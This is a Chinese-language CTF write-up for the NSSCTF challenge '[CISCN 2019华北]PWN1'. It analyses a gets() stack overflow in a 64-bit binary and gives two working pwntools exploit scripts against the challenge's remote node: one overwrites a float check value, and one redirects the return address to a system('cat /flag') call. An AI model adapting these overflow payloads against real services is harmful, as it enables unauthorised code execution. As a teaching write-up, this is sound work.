





# [CISCN 2019华北]PWN1

## 基本信息

- 题目名称：[CISCN 2019华北]PWN1
- 题目链接：https://www.nssctf.cn/problem/100
- 考点清单：栈溢出、ret2text

## 一、看到什么

### 附件分析



- 64位 ELF 
- 无栈保护 无PIE 

**grep -E "(flag|system|/bin/sh)"尝试查找关键字符串**



- 推测存在后门函数直接调用了`system(cat / flag)`

## 二、想到什么解题思路

- 覆盖返回地址 直接读取 flag

## 三、尝试过程和结果记录

**打开Ghidra找到关键函数func**



- 定义44字节字符数组 gets读入无边界检查 存在栈溢出漏洞

**栈布局分析**
```
ret addr  # rbp + 8
rbp
float     # rbp - 0x4
buf[44]   # rbp - 0x30
```

- 覆盖 float 值为 11.28125 执行程序自身逻辑读取 flag
- 覆盖返回地址到写入 `cat / flag` 参数的地址 `0x4006be`



## 四、Payload

- 覆盖浮点数
- 偏移量：buf[44] = 44 字节
```python 
from pwn import *
import struct

p = remote("node4.anna.nssctf.cn", 26284)
payload = b'A'*44 + p64(0x41348000)
p.sendline(payload)
p.interactive()
```

- 覆盖返回地址
- 偏移量： buf[44] + float[4] + rbp[8] = 56 字节

```python 
from pwn import *
import struct

p = remote("node4.anna.nssctf.cn", 26284)
payload = b'A'*56 + p64(0x4006be)
p.sendline(payload)
p.interactive()
```


